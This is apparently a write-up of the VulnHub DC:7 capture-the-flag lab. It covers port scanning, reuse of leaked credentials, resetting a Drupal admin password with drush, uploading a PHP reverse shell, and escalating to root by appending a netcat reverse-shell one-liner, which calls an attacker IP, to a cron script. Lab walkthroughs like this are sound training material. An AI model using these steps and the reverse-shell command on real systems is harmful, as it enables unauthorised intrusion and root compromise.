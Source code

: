 # DC:7 CTF Walkthrough (Vulnhub) 

###### <p align="center"> *This is official repository maintained by me*</center> </p>
###### <p align="center"> *[yigitdrbk](https://www.instagram.com/yigitdrbk/) *</center> </p>

DC:7 is a CTF created by DCAU. You can find the technical information about this CTF on the VulnHub page. First of all, make sure to download and install the correct OVA file from VulnHub. (https://download.vulnhub.com/dc/DC-7.zip).

This CTF is slightly more challenging than others. It requires understanding file permissions — such as who can execute or edit a file — and thinking outside the box, like searching for clues on the author’s GitHub page.
## 1 - Reconnaissance

I began with port scanning. Basic port and script scanning are crucial steps, especially if you’re not planning to use more advanced recon tools.

```bash
rustscan <machine_ip> or nmap -p- -vv- 
nmap -PN -sS -sV --script vuln -p 22,80 -oN finalscan
```

And then I checked the webpage. There was a note from author.

![DC7](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*WblfGgIAYVLZFdgJdqsDMQ.png "DC7")

I searched for the username “DC7USER” in a browser and found a GitHub account with the same name. This account had a single repository called “staffdb,” where I discovered dc7user’s credentials.

![DC7](https://miro.medium.com/v2/resize:fit:828/format:webp/1*8bIk5k-Bq89pHRs9ieBb6Q.png "DC7")

I first attempted to log in via the login panel, which was located at the top right corner of the page, but my attempt failed. Next, I tried using SSH with these credentials and successfully accessed the shell for the dc7user account.

## 2 - Exploiting

Inside the home directory, I found one file named “mbox” and a directory named “backups.” I started by reading the “mbox” file, which contained emails between the root user and dc7user, with a note mentioning a cron job on the machine.

![DC7](https://miro.medium.com/v2/resize:fit:828/format:webp/1*y8Un0haGIdf1n3VruXzVeg.png "DC7")

The cron job was located at /opt/scripts/backups.sh, and I had read access to this file. The backups.sh script simply deleted contents within the backups directory and refreshed it.

![DC7](https://miro.medium.com/v2/resize:fit:828/format:webp/1*1bmxHOdcMc-IL32g1DP2nA.png "DC7")

I noticed a drush command in the file, which allowed me to use it directly to change the admin password. Using the following simple command, I reset the admin password to "admin."

```bash
drush user-password admin --password=admin
```

`drush` is a command-line tool for managing Drupal CMS. After successfully changing the admin password, I logged in to access and manage the webpage.

## 3- Being admin on webpage

The admin interface was the standard Drupal management panel, which was somewhat complex at first glance. I navigated to the “Manage” section and selected “Content.” My goal was to insert a PHP reverse shell payload to obtain a reverse shell, but the webpage interpreted my PHP code as simple HTML.

If you have kali linux the reverse shell would be in “/usr/share/webshells” , but if you don’t have it you can just google the “pentestmonkey reverse shell”.

After that I download the php.tar.gz file from the original drupal page. So that I will run php code on my webpage. After that I just modify my php-reverse shell and started a netcat session on my local computer.

## 4-Getting root shell

And now I have a new netcat shell and I am a www-data user. Unlike the dc7user I can modify the backups.sh file and I can have root shell.

So the goal now is getting a shell with backups.sh cronjob. I searched the internet how I can add a line and get a shell. I found it on the pentestmonkey again.

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.4 1111 >/tmp/f' >> backups.sh
``` 

This is a cronjob so it won’t give you a reverse shell at the moments. After several minutes now I have shell in my netcat session as a root. So I can read the “theflag.txt”

![DC7](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*XfU277VpLj8ps7bE5UfeSA.png "DC7")

Developer / Author: [yigitdrbk](https://www.instagram.com/yigitdrbk/)
